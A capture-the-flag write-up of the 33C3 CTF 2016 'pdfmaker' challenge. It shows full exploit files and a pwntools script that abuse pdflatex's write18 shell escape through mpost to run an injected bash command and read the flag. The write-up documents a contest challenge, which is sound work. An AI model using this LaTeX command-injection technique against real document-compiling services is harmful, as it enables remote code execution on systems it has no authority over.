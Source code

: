 ```yaml
---
title: 33C3 CTF 2016 -- pdfmaker
comments: true
permalink: "/:title/"
date: 2016-12-29 21:05
tags:
- 33C3
- CTF
- Python
- pdflatext
- Misc
categories:
- write-ups
---
```


**Category:** Misc  
**Points:** 75

>Just a tiny [application](https://gist.github.com/bruce30262/80b089e24d3a34862fe78892c63d8dcf), that lets the user write some files and compile them with pdflatex.   
>
>What can possibly go wrong?  
>
>nc 78.46.224.91 24242

<!-- more -->  

So this is a service that allow us to create, show & compile some files.
* `create`: Create a file. Valid file format are: `.log`, `.tex`, `.mb`, `.sty` & `.bib`
* `show`: Show the file content.
* `compile`: Compile a file with the `pdflatex` command.

We started by googling the key word **"pdflatex exploit"**, then teammate **mike** found a useful link: [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

Basically we just need to follow the method mentioned in the post:
1. Create a `.mp` file
2. Create a `.tex` file with the malicious content. Here we change the command to `(cat${IFS}$(ls|grep${IFS}33C3))>qqq.log`, which will later store the flag content into `qqq.log`
3. Compile the `.tex` file. This will cause `pdflatext` execute our command
4. Show the `qqq.log` file and get the flag

Here's our final exploit:

sss.mp:
```
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye
```

aaa.tex:
```
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (cat${IFS}$(ls|grep${IFS}33C3))>qqq.log" "sss.mp"}
\end{document}
```

```python
from pwn import *

r = remote("78.46.224.91", 24242)

log.info("creating sss.mp...")
r.sendlineafter(">", "create mp sss")
r.recvline()
f = open("sss.mp", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

log.info("creating aaa.tex...")
r.sendlineafter(">", "create tex aaa")
r.recvline()
f = open("aaa.tex", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

r.sendlineafter(">", "compile aaa")
r.sendlineafter(">", "show log qqq")

r.interactive()
```

**Don't take LaTEX files from strangers!!**

flag: `33C3_pdflatex_1s_t0t4lly_s3cur3!`
